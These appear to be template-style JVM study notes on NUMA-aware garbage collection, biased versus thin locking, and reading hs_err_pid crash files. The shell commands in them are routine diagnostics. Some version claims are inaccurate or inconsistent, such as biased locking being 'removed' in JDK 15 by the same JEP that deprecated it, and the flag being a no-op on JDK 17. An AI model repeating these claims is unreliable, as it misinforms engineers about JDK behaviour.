NUMA (Non-Uniform Memory Access) architectures became dominant with AMD Opteron (2003) and Intel Nehalem (2008). Early JVMs were NUMA-oblivious. G1GC added NUMA-aware allocation in JDK 14 (JEP 345). ZGC added NUMA support in JDK 15. Before these improvements, multi-socket JVM deployments routinely underperformed single-socket equivalents because memory access patterns were accidentally pessimized. The key insight was that Eden allocation (where most objects are born) should happen on the local NUMA node of the allocating thread.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Memory locality dominates:** Local memory access is 40-70ns faster than remote. For pointer-chasing workloads, this difference compounds multiplicatively across object graphs.
2. **Allocation determines locality:** Objects are accessed most frequently by the thread that created them. Allocating in the creator's local NUMA node maximizes locality for the common case.
3. **GC disrupts locality:** Object promotion (young->old) and compaction move objects without considering NUMA affinity. Long-lived objects may end up on any node.

**DERIVED DESIGN:**

These invariants force: (1) per-NUMA-node Eden spaces (threads allocate locally), (2) NUMA-aware page allocation from the OS, (3) accepting that old-gen objects lose locality (diminishing returns of tracking after promotion).

**THE TRADE-OFF:**

**Gain:** 10-30% throughput improvement on multi-socket systems. Reduced memory bus contention. Better CPU cache utilization.

**Cost:** Complexity in heap management. Memory imbalance if threads are unevenly distributed. Not beneficial on single-socket systems.

---

### 🧠 Mental Model

> NUMA is like a factory with two workshops (sockets) connected by a narrow corridor (interconnect). Each workshop has its own supply room (local memory). Workers (threads) get materials fastest from their own supply room. Going to the other workshop's supply room means walking down the corridor - 40% slower. NUMA-aware allocation ensures each worker gets raw materials (new objects) from their own supply room.

- "Workshops" -> CPU sockets with local memory controllers
- "Supply room" -> local DRAM attached to that socket
- "Narrow corridor" -> inter-socket interconnect (QPI/UPI)
- "Workers" -> application threads pinned to a socket
- "Raw materials from local" -> NUMA-local allocation

**Where this analogy breaks down:** in a real factory, you can choose which workshop handles each task. In JVM, thread scheduling is OS-controlled (unless pinned). Objects promoted to old gen may migrate to any node during compaction, and there is no ongoing affinity tracking for old objects.

---

### 🧩 Components

- **NUMA nodes:** OS-visible memory domains. Each socket typically has one node. Visible via `numactl --hardware`.
- **Per-node Eden:** G1 allocates separate Eden regions per NUMA node. Each thread's TLAB comes from its local node's Eden.
- **Interleaved old gen:** Old gen pages are interleaved across nodes (compromise - no single node bears all old-gen pressure).
- **OS page placement:** `mmap` with NUMA policy. JVM uses `mbind()` or `set_mempolicy()` to request local allocation.
- **Thread affinity:** Not managed by JVM. OS scheduler determines thread-to-node mapping. `numactl` or `taskset` can pin.

```text
2-Socket NUMA topology:
  Socket 0          Socket 1
  [CPU cores 0-15]  [CPU cores 16-31]
  [64GB local RAM]  [64GB local RAM]
        |_____interconnect_____|

  Access latency:
    Local:   ~60ns
    Remote:  ~100ns (1.7x slower)

  G1 NUMA-aware Eden:
    Node 0 Eden regions: R1, R5, R9...
    Node 1 Eden regions: R2, R6, R10...
    Thread on node 0 -> TLAB from R1/R5/R9
```


```mermaid
flowchart LR
    T0[Thread on Socket 0] --> E0[Eden Node 0]
    T1[Thread on Socket 1] --> E1[Eden Node 1]
    E0 --> S[Survivor - interleaved]
    E1 --> S
    S --> O[Old Gen - interleaved]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** On servers with multiple CPU sockets, each socket has its own memory. Accessing the other socket's memory is slower. NUMA-aware GC ensures new objects are allocated in memory close to the thread that creates them.

**Level 2 - How to use it:** Enable with `-XX:+UseNUMA` (G1, JDK 14+). Verify topology with `numactl --hardware`. Monitor with `numastat -p <pid>` to check local vs remote allocation ratios.

**Level 3 - How it works:** G1 creates per-NUMA-node Eden regions. When a thread needs a new TLAB, it gets one from a region on its local node. Young GC survivor and old gen use interleaved allocation (spread evenly). This optimizes for the common case: newly-allocated objects are accessed by their creator thread.

**Level 4 - Production mastery:** NUMA effects compound with heap size. A 256GB heap across 4 NUMA nodes can show 40% throughput difference between NUMA-aware and oblivious modes. However, benefits disappear for workloads with high object sharing between threads (e.g., work-stealing queues where any thread processes any task). Monitor `numastat` for "other_node" allocations - high values indicate NUMA locality failures from thread migration or shared-object patterns.

---

### ⚙️ How It Works

**Phase 1 - Node Discovery:** At startup, JVM queries OS for NUMA topology (number of nodes, CPU-to-node mapping).

**Phase 2 - Eden Partitioning:** G1 assigns Eden regions to NUMA nodes proportionally. Each node gets regions allocated from its local memory.

**Phase 3 - TLAB Allocation:** Thread requests TLAB. JVM determines thread's current NUMA node (via `getcpu()` or cached affinity). Allocates TLAB from that node's Eden region.

**Phase 4 - Collection:** Young GC collects all Eden regions regardless of node. Survivor placement is interleaved. Old gen promotion is node-agnostic.

```text
Allocation path (NUMA-aware):
  Thread.allocate()
    -> determine_numa_node(current_thread)
    -> get_tlab_from(node_N_eden_region)
    -> bump_pointer_allocate_in_tlab()

  Fallback (TLAB exhausted):
    -> refill_tlab_from_node_N_eden()
    -> if node_N full: steal from other node
```


```mermaid
sequenceDiagram
    participant T as Thread (Node 0)
    participant JVM as JVM Allocator
    participant N0 as Node 0 Eden
    participant N1 as Node 1 Eden
    T->>JVM: allocate object
    JVM->>JVM: getcpu() -> node 0
    JVM->>N0: get TLAB from node 0 Eden
    N0-->>JVM: local TLAB
    JVM-->>T: object in local memory (60ns)
```

---

### 🚨 Failure Modes

**Failure 1 - Thread Migration Destroying Locality:**

**Symptom:** High "other_node" in `numastat`. Performance degrades despite `-XX:+UseNUMA` enabled.

**Root cause:** OS scheduler migrates threads between NUMA nodes. Thread allocated objects on node 0, migrated to node 1, now all accesses are remote.

**Diagnostic:**

```bash
numastat -p <pid>
# Check "other_node" column
# If > 30% of "local_node": locality is poor
```

**Fix:** Pin threads to NUMA nodes with `numactl --cpunodebind=0 --membind=0` or use processor affinity in the application's thread pool configuration.

**Failure 2 - Memory Imbalance:**

**Symptom:** One NUMA node exhausted (OOM on that node), other has free memory. Allocation stalls despite total free memory available.

**Root cause:** Uneven thread distribution. Most threads on node 0 exhaust node 0's Eden while node 1 is idle.

**Diagnostic:**

```bash
numastat -m | grep "MemFree"
# If one node has 0 free while other has GB free:
# memory imbalance
```

**Fix:** Balance thread pool across nodes. Or let JVM steal from remote node when local is exhausted (default behavior).

---

### 🔬 Production Reality

A common pattern in database-like Java services on 2-socket servers: enabling `-XX:+UseNUMA` on a 128GB heap G1 JVM shows 15-25% throughput improvement in benchmarks. However, the improvement varies dramatically by workload. Services with thread-local processing (request-per-thread, no shared state) see maximum benefit. Services with shared caches (ConcurrentHashMap accessed by all threads) see minimal benefit because cache entries are accessed from both sockets regardless of where they were allocated. The key decision is not just enabling NUMA but structuring data access patterns to exploit locality.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | NUMA-aware GC      | Single-socket         | Process pinning     |
| -------------- | ------------------ | --------------------- | ------------------- |
| Throughput     | +10-30% multi-sock | Baseline              | +15-20% (per-node)  |
| Complexity     | JVM flag only      | None                  | Infra + deploy      |
| Use case       | Multi-socket JVM   | Cloud (single socket) | Max perf per node   |
| GC interaction | G1/ZGC aware       | N/A                   | Separate JVM/node   |
| Flexibility    | Auto-balancing     | N/A                   | Static partitioning |

---

### ⚡ Decision Snap

**ENABLE NUMA-AWARE GC WHEN:**

- Running on multi-socket hardware (2+ CPU sockets).
- Workload has thread-local access patterns.
- Heap > 32GB across multiple NUMA nodes.

**SKIP NUMA TUNING WHEN:**

- Single-socket system (cloud VMs are almost always single-socket).
- Shared-cache workload where all threads access same data.

**PREFER PROCESS PINNING WHEN:**

- Maximum isolation needed. Run separate JVM per NUMA node with `numactl`.

---

### ⚠️ Top Traps

| #   | Misconception                     | Reality                                                                                                        |
| --- | --------------------------------- | -------------------------------------------------------------------------------------------------------------- |
| 1   | "Cloud VMs need NUMA tuning"      | Most cloud VMs are single-socket. NUMA tuning has zero effect. Only relevant for bare-metal or very large VMs. |
| 2   | "+UseNUMA fixes all locality"     | Only Eden allocation is NUMA-aware. Old gen is interleaved. Shared objects have no locality guarantee.         |
| 3   | "More sockets = linear scaling"   | Without NUMA awareness, 2 sockets can be SLOWER than 1 due to remote access penalties.                         |
| 4   | "JVM handles thread affinity"     | JVM does not pin threads. OS scheduler migrates freely. Use numactl or application-level pinning.              |
| 5   | "NUMA only matters for big heaps" | Even 8GB heaps on 2-socket show measurable difference. The latency penalty is per-access, not per-GB.          |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-056 TLAB - Thread-Local Allocation Buffers - NUMA-aware allocation extends TLAB concept to per-node
- JVM-077 G1GC Remembered Sets and Card Tables - understand G1 region model that NUMA partitions

**THIS:** JVM-081 NUMA-Aware GC and Memory Allocation

**Next steps:**

- JVM-085 GC Ergonomics Failures at Scale - NUMA imbalance as ergonomics failure mode
- JVM-095 JVM Fleet Observability - Key Metrics - NUMA metrics in fleet monitoring

---

**The Surprising Truth:**

On modern cloud infrastructure, NUMA awareness is almost irrelevant. AWS, GCP, and Azure instance types below 48 vCPUs are typically single-socket. You only encounter multi-socket NUMA on bare-metal instances (like AWS `metal` types) or very large VM sizes (96+ vCPUs). Teams spending time on NUMA tuning in the cloud are optimizing something that does not exist in their environment. The correct first step is always `numactl --hardware` - if it shows one node, NUMA tuning is a no-op.

**Further Reading:**

- JEP 345: NUMA-Aware Memory Allocation for G1 (JDK 14)
- Drepper, "What Every Programmer Should Know About Memory" (2007) - NUMA architecture fundamentals
- Linux kernel docs: `Documentation/admin-guide/mm/numa_memory_policy.rst`

**Revision Card:**

1. NUMA-aware GC: `-XX:+UseNUMA` (G1/ZGC JDK 14+). Allocates Eden locally to thread's NUMA node.
2. Only matters on multi-socket hardware. Cloud VMs are usually single-socket (check with `numactl --hardware`).
3. Monitor with `numastat -p <pid>`. High "other_node" = locality failure from thread migration.

**BAD:**

```bash
# Assuming NUMA tuning helps on cloud VM
# (single-socket, 16 vCPU instance)
java -XX:+UseNUMA -Xmx32g -jar service.jar
# numactl --hardware shows: 1 node
# UseNUMA has zero effect. Wasted effort.
```

**GOOD:**

```bash
# First verify NUMA topology exists
numactl --hardware
# node 0: cpus: 0-15, size: 64GB
# node 1: cpus: 16-31, size: 64GB
# Multi-socket confirmed -> enable NUMA
java -XX:+UseNUMA -XX:+UseG1GC \
  -Xmx120g -jar service.jar
# Verify: numastat -p <pid> (local > 80%)
```

---

---

# JVM-082 Biased Locking Removed JDK 15 and Thin Locks

**TL;DR** - Biased locking (free uncontended lock acquisition) was removed in JDK 15 because its complexity outweighed benefits on modern hardware; thin locks now handle the uncontended case efficiently.

---

### 🔥 Problem Statement

After upgrading from JDK 11 to JDK 17, a synchronized-heavy service shows 2-3% throughput regression in microbenchmarks. Investigation reveals biased locking was disabled (JEP 374). The team does not understand what replaced it and whether the regression is real or benchmark-specific. Understanding the lock evolution (biased -> thin -> fat) is essential for diagnosing synchronization performance and deciding whether to use `synchronized` vs `java.util.concurrent` locks in performance-critical code.

---

### 📜 Historical Context

Biased locking was introduced in JDK 6 (2006) based on research showing that most locks are acquired by only one thread (uncontended). It eliminated the CAS (Compare-And-Swap) instruction from uncontended lock acquisition - saving ~20ns per lock. By 2020, hardware CAS had become much faster (3-5ns), and biased locking's complexity (safepoint-based revocation, thread-specific bias tracking) added maintenance burden disproportionate to its benefit. JEP 374 (JDK 15) deprecated it; JEP 374 removed it in JDK 15+.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Lock states are progressive:** Unlocked -> thin (CAS) -> fat (OS mutex). Each escalation is more expensive but handles more contention.
2. **Uncontended is the common case:** In typical applications, 90%+ of lock acquisitions have no contention. The fast path must be extremely cheap.
3. **CAS is the modern uncontended fast path:** On current hardware, CAS costs 3-5ns. This is fast enough to make biased locking's additional complexity unjustifiable.

**DERIVED DESIGN:**

These invariants mean: (1) thin locking (single CAS) is the new uncontended fast path, (2) fat locking (OS mutex + park/unpark) handles real contention, (3) lock coarsening and elision by JIT handle synthetic cases (locks that could be eliminated entirely).

**THE TRADE-OFF:**

**Gain:** Simpler JVM internals (removed ~1000 lines of complex code). Faster safepoints (no bias revocation). Predictable lock performance.

**Cost:** 3-5ns additional per uncontended lock acquisition (CAS vs no-op). Negligible in practice except synthetic benchmarks.

---

### 🧠 Mental Model

> Lock states are like door security levels. Unlocked = open door (no cost). Thin lock = keycard swipe (CAS - fast, 3-5ns, works if nobody else is swiping simultaneously). Fat lock = security guard (OS mutex - expensive, involves kernel, but handles queues of people waiting). Biased locking was a "personal badge" that skipped the swipe entirely for the regular occupant - eliminated in favor of faster keycards.

- "Open door" -> unlocked (no owner)
- "Keycard swipe" -> thin lock (CAS on object header)
- "Security guard" -> fat lock (OS mutex, thread parking)
- "Personal badge" -> biased lock (removed JDK 15+)
- "Badge revocation" -> safepoint-based debiasing (expensive)

**Where this analogy breaks down:** real security systems do not "inflate" from keycard to guard dynamically. JVM lock inflation happens at runtime based on observed contention. Also, thin locks can be "deflated" back to unlocked when released - real security does not downgrade.

---

### 🧩 Components

- **Object header mark word:** 64 bits encoding lock state. Bits indicate: unlocked, thin-locked (owner thread ID), or fat-locked (pointer to ObjectMonitor).
- **Thin lock (CAS):** Thread attempts CAS on mark word (unlocked -> own thread ID). If successful: acquired. If CAS fails: contention detected, inflate to fat.
- **Fat lock (ObjectMonitor):** Kernel-backed mutex with wait set, entry set, and owner tracking. Threads park via `pthread_mutex_lock` / `futex`.
- **Lock inflation:** Transition from thin to fat when contention detected. Allocates ObjectMonitor from global pool.
- **Lock deflation:** G1/ZGC deflate idle fat locks back to thin during GC pauses (reclaim ObjectMonitor memory).
- **Lock coarsening (JIT):** C2 merges adjacent synchronized blocks on same object into one (eliminates redundant lock/unlock).
- **Lock elision (JIT):** C2 removes locks entirely when escape analysis proves the object is thread-local.

```text
Object Header Mark Word (64-bit):
  Unlocked:    [hash:31][age:4][0][01]
  Thin locked: [owner_thread:54][00]
  Fat locked:  [monitor_ptr:62][10]
  GC marked:   [...][11]

  Lock acquisition (thin):
    CAS(mark_word, expected=unlocked, new=myID)
    Success -> acquired (3-5ns)
    Failure -> inflate to ObjectMonitor
```


```mermaid
stateDiagram-v2
    [*] --> Unlocked
    Unlocked --> ThinLocked: CAS success
    ThinLocked --> Unlocked: release
    ThinLocked --> FatLocked: contention detected
    FatLocked --> Unlocked: deflation (GC)
    FatLocked --> FatLocked: park/unpark cycle
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** When you use `synchronized` in Java, the JVM uses a lock mechanism stored in the object header. The lock starts thin (fast, single CPU instruction) and inflates to a fat lock (OS-level mutex) only when threads actually compete for it.

**Level 2 - How to use it:** Prefer `synchronized` for simple cases. Use `java.util.concurrent` locks (ReentrantLock) when you need tryLock, interruptibility, or multiple condition variables. JDK 15+ removes biased locking - do not add `-XX:+UseBiasedLocking` (it does nothing).

**Level 3 - How it works:** Thin lock: thread writes its ID into object header via CAS (atomic compare-and-swap). If another thread attempts CAS on the same object simultaneously, CAS fails. The JVM then inflates the lock: allocates an ObjectMonitor structure, transitions to OS-level mutex, and parks the losing thread.

**Level 4 - Production mastery:** Lock contention is diagnosed via JFR `jdk.JavaMonitorEnter` events (shows which locks have highest contention and wait times). High contention on a single object indicates a scalability bottleneck - restructure with striped locks, concurrent collections, or lock-free algorithms. Lock inflation/deflation cycles (visible in `-Xlog:monitorinflation`) indicate intermittent contention - consider preemptively using fat locks via ReentrantLock if pattern is stable.

---

### ⚙️ How It Works

**Phase 1 - Uncontended Acquisition (thin):**

Thread attempts CAS on object's mark word. Success: thread owns the lock. Cost: ~3-5ns (single atomic instruction).

**Phase 2 - Contention Detection:**

Second thread attempts CAS, fails (mark word already holds other thread's ID). JVM decides to inflate.

**Phase 3 - Inflation:**

Allocate ObjectMonitor. Copy mark word content. Set mark word to point to ObjectMonitor. Contending thread enters ObjectMonitor's entry list and parks (OS-level wait).

**Phase 4 - Notification and Release:**

Owning thread releases lock. ObjectMonitor unparks one waiting thread. If no waiters for extended period, GC can deflate back to thin.

```text
Lock acquisition flow:
  synchronized(obj) {
    1. Read obj.markWord
    2. If unlocked: CAS(markWord, myThreadID)
       -> Success: done (3-5ns)
    3. If myThreadID already: reentrant (inc)
    4. If other thread: inflate -> park
       -> Wait for owner to release (us-ms)
  }
```


```mermaid
sequenceDiagram
    participant T1 as Thread 1
    participant OH as Object Header
    participant T2 as Thread 2
    participant OM as ObjectMonitor
    T1->>OH: CAS(unlocked, T1_ID) - success
    T1->>T1: execute synchronized block
    T2->>OH: CAS(T1_ID, T2_ID) - FAIL
    T2->>OM: inflate - create ObjectMonitor
    T2->>OM: enter wait queue (park)
    T1->>OM: release lock
    OM->>T2: unpark - wake T2
    T2->>T2: acquired (after wait)
```

---

### 🚨 Failure Modes

**Failure 1 - Lock Convoy:**

**Symptom:** Throughput collapses despite low CPU usage. Many threads parked on one monitor. One thread at a time executes the critical section.

**Root cause:** All threads serialize on a single fat lock. Common with shared mutable state (single HashMap, shared counter, global logger lock).

**Diagnostic:**

```bash
# JFR shows high contention on one monitor:
jcmd <pid> JFR.dump filename=locks.jfr
# In JMC: Java Monitor Blocked events
# Look for monitor with highest total blocked time
```

**Fix:** Reduce critical section size. Use striped locking (ConcurrentHashMap). Replace shared mutable state with thread-local accumulation + periodic merge.

**Failure 2 - Inflation/Deflation Churn:**

**Symptom:** Excessive GC pause time spent on monitor deflation. `-Xlog:monitorinflation` shows rapid inflate/deflate cycles.

**Root cause:** Bursty contention pattern. Lock inflates during burst, deflates during quiet, re-inflates next burst.

**Diagnostic:**

```bash
-Xlog:monitorinflation=info
# Look for repeated inflate/deflate of same object
# High count = churn
```

**Fix:** Use `ReentrantLock` for known-contended locks (always "fat," no inflation overhead). Or increase deflation lag (`-XX:MonitorDeflationMax`).

---

### 🔬 Production Reality

After JDK 15 upgrade removing biased locking: most services see 0-1% throughput change (within measurement noise). Services with millions of uncontended synchronization operations per second on single-threaded-access objects (e.g., StringBuffer in single-threaded context, old-style synchronized collections) may see 2-5% regression in microbenchmarks - but this is an argument for removing those unnecessary synchronizations, not for restoring biased locking. The net effect is cleaner JVM internals and faster safepoints (bias revocation required global safepoints that added unpredictable latency).

---

### ⚖️ Trade-offs & Alternatives

| Aspect           | synchronized (thin) | ReentrantLock     | StampedLock         |
| ---------------- | ------------------- | ----------------- | ------------------- |
| Uncontended cost | 3-5ns (CAS)         | 5-10ns (CAS+more) | 3-5ns (optimistic)  |
| Contended        | OS mutex (park)     | OS mutex (park)   | Retry or park       |
| Reentrant        | Yes (builtin)       | Yes               | No                  |
| tryLock          | No                  | Yes               | Yes                 |
| Read/write split | No                  | Via RWLock        | Yes (optimistic rd) |
| JIT optimization | Coarsening, elision | Limited           | None                |

---

### ⚡ Decision Snap

**USE synchronized WHEN:**

- Simple mutual exclusion, no timeout/interrupt needed.
- JIT can coarsen or elide (thread-local objects).
- Code clarity preferred over manual lock management.

**USE ReentrantLock WHEN:**

- Need tryLock, lockInterruptibly, or multiple conditions.
- Known contention (avoid inflation overhead).
- Need fairness guarantee (FIFO order).

**USE StampedLock/lock-free WHEN:**

- Read-heavy workload (optimistic reads avoid locking entirely).
- Maximum throughput critical path.

---

### ⚠️ Top Traps

| #   | Misconception                              | Reality                                                                                                             |
| --- | ------------------------------------------ | ------------------------------------------------------------------------------------------------------------------- |
| 1   | "JDK 15+ is slower for synchronized"       | Biased lock removal costs 3-5ns per uncontended acquire. Negligible except synthetic benchmarks.                    |
| 2   | "synchronized is always slower than j.u.c" | JIT can elide and coarsen synchronized. ReentrantLock cannot be optimized the same way.                             |
| 3   | "Fat lock = performance disaster"          | Fat lock is only expensive when threads actually park. Uncontended fat lock is still fast (CAS + check).            |
| 4   | "-XX:+UseBiasedLocking works on JDK 17"    | Flag is ignored (no-op). Biased locking code is removed. Do not rely on it.                                         |
| 5   | "More threads = more locking overhead"     | Overhead only increases with CONTENTION (concurrent access to same lock). Many threads with separate locks is fine. |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-055 Safepoints - What Stops the World - biased lock revocation required safepoints (reason for removal)
- JVM-052 JIT Compilation Tiers (C1 and C2) - JIT lock coarsening and elision

**THIS:** JVM-082 Biased Locking Removed JDK 15 and Thin Locks

**Next steps:**

- JVM-080 Safepoint Bias and Time-To-Safepoint Latency - removing biased locking improved TTSP
- JVM-091 Project Loom and Virtual Thread Scheduling - virtual threads interact differently with monitors

---

**The Surprising Truth:**

Lock elision by the JIT compiler means many `synchronized` blocks have ZERO cost in compiled code. If escape analysis proves the locked object is thread-local (never escapes the method), C2 removes the lock entirely. A `synchronized(new Object())` costs nothing after JIT. This means "always use synchronized for safety" has lower cost than people assume - the JIT removes it when provably unnecessary. However, `ReentrantLock` cannot be elided by the JIT, making `synchronized` potentially FASTER than explicit locks for thread-local patterns.

**Further Reading:**

- JEP 374: Deprecate and Disable Biased Locking (JDK 15)
- David Dice, "Biased Locking in HotSpot" - original design rationale
- Aleksey Shipilev, "Java Objects Inside Out" - mark word layout and lock states

**Revision Card:**

1. Lock states: unlocked -> thin (CAS, 3-5ns) -> fat (OS mutex, us-ms). Progressive escalation on contention.
2. Biased locking removed JDK 15 (JEP 374). CAS on modern hardware (3ns) makes bias complexity unjustified.
3. JIT elides locks on thread-local objects. `synchronized` can be ZERO cost after compilation.

**BAD:**

```java
// Forcing biased locking on JDK 17+ (no-op)
java -XX:+UseBiasedLocking -jar app.jar
// Flag ignored. No effect. False confidence.
// Also: using StringBuffer (synchronized)
// in single-threaded context
StringBuffer sb = new StringBuffer();
for (int i = 0; i < 1000; i++) {
    sb.append(i); // Unnecessary sync overhead
}
```

**GOOD:**

```java
// Use StringBuilder (no synchronization)
StringBuilder sb = new StringBuilder();
for (int i = 0; i < 1000; i++) {
    sb.append(i); // No lock, no CAS, no cost
}
// For shared state: choose lock type by need
// Simple exclusion:
synchronized (sharedState) { /* ... */ }
// Need timeout:
if (lock.tryLock(100, MILLISECONDS)) { }
```

---

---

# JVM-083 JVM Crash Analysis (hs_err_pid Files)

**TL;DR** - JVM crashes generate an hs_err_pid file containing crash location, register state, stack traces, and environment - the primary forensic artifact for diagnosing native-level failures.

---

### 🔥 Problem Statement

A production JVM process vanishes. No OOM error in logs, no graceful shutdown. The container restart count increments. Checking the filesystem reveals `hs_err_pid12345.log` - a 50KB crash dump that the team has never read before. It contains assembly code, register values, memory maps, and cryptic thread states. Without the ability to interpret this file, the crash remains unexplained, and the team resorts to "just restart it" without understanding whether the root cause is a JVM bug, native library corruption, or hardware failure.

---

### 📜 Historical Context

The `hs_err_pid` file format has existed since HotSpot's early days (late 1990s). "hs" stands for "HotSpot." The file format has evolved to include more information: thread stacks, memory maps, loaded shared libraries, GC state, compiler state, and environment variables. Before containerization, these files were simple to find (working directory). In container environments, they often vanish with the container unless explicitly volume-mounted - making crash diagnosis significantly harder.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Crash = JVM-internal failure:** A SIGSEGV/SIGBUS in JVM code or JNI code triggers the crash handler. Pure Java code cannot crash the JVM (it throws exceptions).
2. **Error handler is best-effort:** The crash handler runs in a corrupted process. It may itself crash during report generation. Partial reports are common.
3. **First section is most reliable:** The further down the hs_err file, the less reliable the data (may be corrupted). Always start reading from the top.

**DERIVED DESIGN:**

The crash report prioritizes information by reliability: crash location and signal first, then thread stacks, then global state. The design assumes the crash handler itself may fail partway through writing.

**THE TRADE-OFF:**

**Gain:** Forensic evidence of exactly what went wrong at the native level. Often sufficient to identify JVM bugs, JNI issues, or hardware failures.

**Cost:** None at runtime (handler only activates on crash). File can be large (50-200KB). Requires native debugging skills to interpret fully.

---

### 🧠 Mental Model

> The hs_err file is a plane's black box recording. When the plane (JVM) crashes, the black box captures the last known state: altitude (heap), speed (thread states), engine readings (GC/JIT state), and cockpit voice (crash stack trace). The first few seconds of recording are most reliable. Later sections may be garbled by the crash itself.

- "Black box" -> hs_err_pid file (post-mortem evidence)
- "Altitude/speed" -> memory state, thread dumps
- "Engine readings" -> GC and JIT compiler state
- "Cockpit voice" -> stack trace of crashing thread
- "First seconds most reliable" -> read top-down

**Where this analogy breaks down:** real black boxes survive intact. The hs_err handler runs inside the crashing process and may produce incomplete output. Also, you can generate multiple crash files from repeated crashes (pattern analysis possible), unlike planes.

---

### 🧩 Components

- **Header:** JVM version, crash signal (SIGSEGV), crash address, problematic frame.
- **Thread section:** Full native + Java stack of crashing thread. Register state. Thread-local info.
- **Other threads:** Stack traces of all threads at crash time. Often reveals what OTHER threads were doing when one crashed.
- **Memory map:** All loaded shared libraries (.so/.dll) with addresses. Essential for matching crash address to library.
- **VM state:** Heap summary, GC state, compiler state, ongoing compilations. Identifies if GC was active.
- **Environment:** System info, JVM flags, ulimits, CPU info.

```text
hs_err_pid file structure (top to bottom):
  [HEADER: signal, crash address, frame]  <- most reliable
  [THREAD: crashing thread full stack]    <- critical
  [REGISTERS: rax, rbx, rsp, rip...]  <- native debug
  [STACK MEMORY: raw bytes around crash]  <- advanced
  [OTHER THREADS: all thread stacks]      <- context
  [MEMORY MAP: loaded libraries+addrs]    <- library ID
  [VM STATE: heap, GC, compiler]          <- JVM context
  [ENVIRONMENT: flags, OS, CPU]           <- repro info
```


```mermaid
flowchart TD
    A[JVM Crash - SIGSEGV] --> B[Error Handler Activates]
    B --> C[Write Header: signal + frame]
    C --> D[Write Crashing Thread Stack]
    D --> E[Write Registers + Memory]
    E --> F[Write Other Thread Stacks]
    F --> G[Write Memory Map]
    G --> H[Write VM State]
    H --> I[hs_err_pid.log complete]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** When the JVM crashes (not an OutOfMemoryError - a genuine native crash), it writes a diagnostic file called `hs_err_pid<PID>.log`. This file contains evidence about what caused the crash and is essential for diagnosis.

**Level 2 - How to use it:** Find the file in the working directory or path specified by `-XX:ErrorFile=/path/hs_err_pid%p.log`. Open it. Read the first 20 lines: the signal, crash address, and problematic frame tell you 80% of what you need. The "problematic frame" identifies if the crash is in JVM code (V), compiled Java (J), native library (C), or JIT compiler.

**Level 3 - How it works:** When a fatal signal (SIGSEGV, SIGBUS, SIGFPE) arrives, the JVM's signal handler intercepts it. Instead of immediately dying, it writes as much diagnostic information as possible: the crashing thread's stack (both native and Java frames), register state, all other threads, loaded libraries, and JVM internal state. Then it terminates.

**Level 4 - Production mastery:** Recurring crashes with same "problematic frame" in a JNI library point to native code bugs. Crashes during "concurrent mark" (VM state: "at safepoint, GC active") suggest GC bugs (upgrade JVM). Crashes with corrupted stack traces suggest stack overflow or wild pointer. Cross-reference crash address with memory map to identify the library. For reproducible crashes: add `-XX:+CreateCoredumpOnCrash` for full core dump analysis with gdb/lldb.

---

### ⚙️ How It Works

**Phase 1 - Signal Reception:** OS delivers fatal signal (SIGSEGV at address 0x0). JVM's signal handler catches it.

**Phase 2 - Context Capture:** Handler saves register state, identifies crashing thread, determines frame type (V=VM, J=Java compiled, C=native, j=interpreted).

**Phase 3 - Report Generation:** Handler writes sections top-to-bottom. Each section is independently flushed to disk (partial reports survive if handler itself crashes).

**Phase 4 - Termination:** After writing, JVM calls `abort()` or allows the signal to propagate for core dump generation.

```text
Key fields in header (first 10 lines):

# A fatal error has been detected by the JRE:
#
# SIGSEGV (0xb) at pc=0x7f3b2c001234,
#   pid=12345, tid=67890
#
# JRE version: OpenJDK 17.0.8+7
# Problematic frame:
# C  [libcrypto.so.1.1+0x123456]  EVP_Cipher

Frame type codes:
  V = VM code (JVM bug likely)
  J = Compiled Java (JIT bug or unsafe)
  C = Native library (JNI/library bug)
  j = Interpreted Java (very rare)
```


```mermaid
sequenceDiagram
    participant OS as Operating System
    participant SH as Signal Handler
    participant ER as Error Reporter
    participant FS as File System
    OS->>SH: SIGSEGV at 0x7f3b2c001234
    SH->>SH: save registers, identify thread
    SH->>ER: generate crash report
    ER->>FS: write header (signal, frame)
    ER->>FS: write thread stacks
    ER->>FS: write memory map
    ER->>FS: write VM state
    ER->>OS: abort() or core dump
```

---

### 🚨 Failure Modes

**Failure 1 - JNI Library Crash:**

**Symptom:** Crash in `C [libxyz.so+0xNNN]`. Recurring at same offset. Different thread each time.

**Root cause:** Bug in native library (buffer overflow, use-after-free, null dereference in C code).

**Diagnostic:**

```bash
# Extract library and offset from hs_err:
grep "Problematic frame" hs_err_pid*.log
# C  [libcrypto.so.1.1+0x4a2b3]  EVP_Update
# Use addr2line to get source location:
addr2line -e /usr/lib/libcrypto.so.1.1 0x4a2b3
```

**Fix:** Update the native library. If custom JNI: review C code for memory safety. Consider Java alternatives to eliminate JNI dependency.

**Failure 2 - JIT Compiler Bug:**

**Symptom:** Crash in `J` (compiled Java frame) or `V [libjvm.so]` during compilation. Occurs only after warmup.

**Root cause:** C2 generates incorrect machine code for specific method. Triggered by particular input pattern.

**Diagnostic:**

```bash
# Identify compiled method from hs_err:
grep "J " hs_err_pid*.log | head -5
# J  com.app.Service.process(LData;)V
# Exclude method from C2:
-XX:CompileCommand=exclude,com.app.Service::process
```

**Fix:** Exclude method from C2 compilation as workaround. Report JVM bug with reproducer. Upgrade JDK (JIT bugs are fixed frequently).

---

### 🔬 Production Reality

In containerized environments, the most common crash scenario is: JNI library (OpenSSL, snappy, zstd) compiled against one glibc version running in a container with a different version. The crash manifests as SIGSEGV in the native library during specific operations. The hs_err identifies the library precisely. Fix: rebuild container image with matching native library versions, or use pure-Java alternatives (e.g., Java's built-in TLS instead of OpenSSL via tcnative). Second most common: `-Xss` too low causing stack overflow that appears as SIGSEGV (stack guard page hit).

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | hs_err_pid        | Core dump (gdb)   | JFR pre-crash     |
| -------------- | ----------------- | ----------------- | ----------------- |
| Size           | 50-200KB          | Heap-sized (GB)   | ~500MB (ring buf) |
| Always avail   | Yes (default)     | Needs ulimit -c   | Needs -XX:Start.. |
| Detail level   | Summary + stacks  | Full memory state | Events timeline   |
| Skills needed  | JVM + native      | gdb/lldb expert   | JFR/JMC familiar  |
